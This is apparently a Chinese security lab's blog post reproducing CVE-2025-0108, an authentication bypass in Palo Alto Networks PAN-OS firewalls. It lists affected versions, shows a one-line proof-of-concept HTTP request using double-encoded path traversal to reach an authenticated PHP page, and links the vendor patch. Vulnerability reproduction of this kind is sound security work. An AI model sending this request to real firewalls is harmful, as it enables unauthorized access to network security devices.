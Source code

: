 #  【成功复现】Palo Alto Networks PAN-OS 身份验证绕过漏洞(CVE-2025-0108)   
原创 弥天安全实验室  弥天安全实验室   2025-04-15 20:39  
  
#   
  
网安引领时代，弥天点亮未来    
   
  
  
  
  
  
   
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
0x01漏洞介绍Palo Alto Networks PAN-OS是美国Palo Alto Networks公司的一套为其防火墙设备开发的操作系统。Palo Alto Networks PAN-OS存在安全漏洞，该漏洞源于存在认证绕过漏洞，会影响PAN-OS完整性和保密性。0x02影响版本  
1、 PAN OS 11.2 < 11.2.4-h4  
   
  
2、 PAN OS 11.1 < 11.1.6-h1  
   
  
3、 PAN OS 10.2 < 10.2.13-h3  
   
  
4、 PAN OS 10.1 < 10.1.14-h9  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAvFsu0hQCUT9tEc3nKW0WpQrEpzmbc3atAyAWvqFj4dB4sc3nia7TC8yHPHYATM2ZsVEWmlFahzRw/640?wx_fmt=png&from=appmsg "")  
0x03漏洞复现  
1.访问漏洞环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAvFsu0hQCUT9tEc3nKW0WpWlLLCoCQl9yw2Wvria8ktb7VrGlYgjlCg1GxjouDwF7yQQbrTgY84BA/640?wx_fmt=png&from=appmsg "")  
2.对漏洞进行复现 POC 漏洞复现GET /unauth/%252e%252e/php/ztp_gate.php/PAN_help/x.css HTTP/1.1Host: 127.0.0.13.Yakit插件测试0x04修复建议目前厂商已发布升级补丁以修复漏洞，补丁获取链接：https://security.paloaltonetworks.com/CVE-2025-0108弥天简介学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。口号 网安引领时代，弥天点亮未来 知识分享完了喜欢别忘了关注我们哦~学海浩茫，予以风动，必降弥天之润！   弥  天安全实验室  
  
